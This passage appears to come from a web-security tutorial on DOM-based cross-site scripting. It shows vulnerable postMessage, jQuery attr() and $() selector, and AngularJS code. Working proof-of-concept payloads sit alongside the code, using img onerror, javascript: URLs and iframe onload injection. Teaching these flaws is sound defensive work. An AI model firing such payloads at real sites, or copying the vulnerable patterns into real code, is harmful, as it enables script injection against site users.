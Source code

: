 Exploit

```html
<iframe src=https://vuln.website/ onload='this.contentWindow.postMessage("<img src=1 onerror=print()>","*")'>
```

### jQuery

jQuery's `attr()` function can change the attributes of DOM elements

```javascript
$(function() {
	$('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl'));
});
```

Exploit

```sh
?returnUrl=javascript:alert(document.domain)
```

***

jQuery's `$()` selector function in another potential sink. If you open the browser console and type `$('<img src=x onerror=alert()>')` jQuery creates this new element (so the alert will be shown)

An example:

```javascript
$(window).on('hashchange', function() {
	var element = $(location.hash);
	element[0].scrollIntoView();
});
```

Exploit

```html
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```

> **Note**: Recent versions of jQuery have patched this specific vulnerability by preventing HTML injection into a selector if the input begins with a hash (#). But remember, this is just an example, the real problem is how `$()` selector works .


### AngularJS

When a site uses the `ng-app` attribute on an HTML element, AngularJS processes it and executes JavaScript inside double curly braces `{{ }}` in HTML or attributes.

Consider

```sh
https://example.com/?search=test
```

```html
<body ng-app>
<!-- something -->
<h1>0 search results for 'test'</h1>
<!-- something -->
</body>
```
